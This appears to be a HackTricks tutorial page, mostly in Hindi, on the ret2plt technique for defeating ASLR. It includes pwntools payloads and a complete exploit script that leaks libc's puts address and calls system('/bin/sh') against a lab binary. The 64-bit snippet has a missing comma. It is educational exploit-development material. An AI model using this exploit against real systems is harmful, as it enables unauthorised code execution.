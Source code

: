 # Ret2plt

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

इस तकनीक का लक्ष्य **PLT से एक फ़ंक्शन का पता लीक करना** होगा ताकि ASLR को बायपास किया जा सके। इसका कारण यह है कि यदि, उदाहरण के लिए, आप libc से `puts` फ़ंक्शन का पता लीक करते हैं, तो आप **`libc` का बेस कहां है** यह **गणना कर सकते हैं** और अन्य फ़ंक्शनों जैसे **`system`** तक पहुँचने के लिए ऑफसेट्स की गणना कर सकते हैं।

यह `pwntools` पेलोड के साथ किया जा सकता है जैसे कि ([**यहां से**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):
```python
# 32-bit ret2plt
payload = flat(
b'A' * padding,
elf.plt['puts'],
elf.symbols['main'],
elf.got['puts']
)

# 64-bit
payload = flat(
b'A' * padding,
POP_RDI,
elf.got['puts']
elf.plt['puts'],
elf.symbols['main']
)
```
ध्यान दें कि **`puts`** (PLT से पते का उपयोग करते हुए) को GOT (ग्लोबल ऑफसेट टेबल) में स्थित `puts` के पते के साथ कॉल किया जाता है। इसका कारण यह है कि जब `puts` GOT प्रविष्टि को प्रिंट करता है, तो यह **प्रविष्टि मेमोरी में `puts` का सटीक पता रखेगी**।

यह भी ध्यान दें कि कैसे `main` का पता एक्सप्लॉइट में उपयोग किया जाता है ताकि जब `puts` अपनी निष्पादन समाप्त करता है, तो **बाइनरी `main` को फिर से कॉल करता है बजाय इसके कि वह बाहर निकल जाए** (इसलिए लीक किया गया पता मान्य रहेगा)।

{% hint style="danger" %}
ध्यान दें कि इसके काम करने के लिए **बाइनरी को PIE के साथ संकलित नहीं किया जा सकता** या आपको **PIE को बायपास करने के लिए एक लीक मिलना चाहिए** ताकि PLT, GOT और main के पते को जान सकें। अन्यथा, आपको पहले PIE को बायपास करना होगा।
{% endhint %}

आप [**इस बायपास का पूरा उदाहरण यहाँ पा सकते हैं**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass)। यह उस **उदाहरण** से अंतिम एक्सप्लॉइट था:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
'A' * 32,
elf.plt['puts'],
elf.sym['main'],
elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
libc.sym['exit'],
next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```
## अन्य उदाहरण और संदर्भ

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 बिट, ASLR सक्षम लेकिन कोई PIE नहीं, पहला कदम एक ओवरफ्लो को भरना है जब तक कि कैनरी का बाइट 0x00 न हो जाए, फिर puts को कॉल करें और इसे लीक करें। कैनरी के साथ एक ROP गैजेट बनाया जाता है जो puts को कॉल करता है ताकि GOT से puts का पता लीक किया जा सके और फिर `system('/bin/sh')` को कॉल करने के लिए एक ROP गैजेट।
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 बिट, ASLR सक्षम, कोई कैनरी नहीं, एक चाइल्ड फंक्शन से मेन में स्टैक ओवरफ्लो। GOT से puts के पते को लीक करने के लिए puts को कॉल करने के लिए ROP गैजेट और फिर एक गैजेट को कॉल करें।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

